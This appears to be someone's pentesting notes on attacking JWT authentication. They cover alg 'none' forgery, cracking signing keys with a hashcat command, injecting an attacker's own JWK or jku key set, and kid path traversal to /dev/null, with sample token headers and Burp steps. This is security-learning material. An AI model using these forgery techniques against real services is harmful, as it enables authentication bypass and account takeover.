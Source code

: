 ### JWT 
				    https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/
 - Change claims, signature might not verified so u can access easily
 - change claims, change alg to none, remove signature except trailing dot, weak verification
 - Brute force signing key. `hashcat -a 0 -m 16500 <jwt> <wordlist>`. Wordlist https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list.  if it is cracked token:<key>. base64encode that key. in jwt edit, new symmetric key, generate, replace `k` with base64 encoded key, go back to repeater and sign
 - only "alg" key is compulsory, rest is optional. Devs use "jwk" ->  - Provides an embedded JSON object representing the key. 
	```json
	{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
	```
	Devs should whitelist keys to verify in the backend, if they just use the key in the jwk, then attacker could insert their own key.
	Steps:
		

   	 With the extension loaded, in Burp's main tab bar, go to the JWT Editor Keys tab.

   	 Generate a new RSA key.

    	Send a request containing a JWT to Burp Repeater.

    	In the message editor, switch to the extension-generated JSON Web Token tab and modify the token's payload however you like.

    	Click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key.

   	 Send the request to test how the server responds.


 - "jku", points to our custom exploit server, use the jwt editor burp plugin, generate, copy and paste to custom exploit server,
```json
{
    "keys":[
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "d3818709-acea-4457-8946-58a9ac958d8b",
    "n": "hzcJ00KMoO6V1hN7MiwBuHVujFV4EmWnEs6SRSgVw0SQM60iV3HmJbbF69dC5hadgoN19QSa12ZCB41Jq7PGfx8cI1RE2WPiy7id8nFfmzKVuEtAVK-lDGfx89YWPOCRl1R7MTrU6lLO9zPbP2FWLpbNm0Ooj602JMgWEIWPz43llz4xgJOmYX8EQia9ntKeOs9-2vjL6OVWjdyR3i8JD0jiFvpQ8iY-ufEdVaRuBjaoeH5N_-dF3SNh7ccK5yoRvWAW9K2NKCrjpyL1wRql775Xdk93zBh9LVj4UBaAPo-NOv06hm1ixia-DI_h9V1Ef4wEbmXhO4ws1X1ahZb-kw"
}
    ]
}	
```
  when signing make sure "type":"jwt" is added, and remove "kid."
 - Servers may use several cryptographic keys for signing different kinds of data, not just JWTs. For this reason, the header of a JWT may contain a kid (Key ID) parameter, which helps the server identify which key to use when verifying the signature. 
	```json
	{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
	```
	Generate to generate a new key in JWK format. Replace the generated value for the k property with a Base64-encoded null byte (AA==).  ../../../../../../../dev/null .
 - make “alg”: “none”, make changes, and then Use an empty signature (i.e. signature = “”), has to have trailing dot.
 - https://pentestbook.six2dez.com/enumeration/webservices/jwt
 - https://kleiton0x00.github.io/posts/json-web-token-exploitation/
 - https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens
 - https://github.com/sergioms/PentestJWT
 - https://medium.com/@netscylla/json-web-token-pentesting-890bc2cf0dcd
 - https://materials.rangeforce.com/tutorial/2019/05/29/Breaking-JWTs/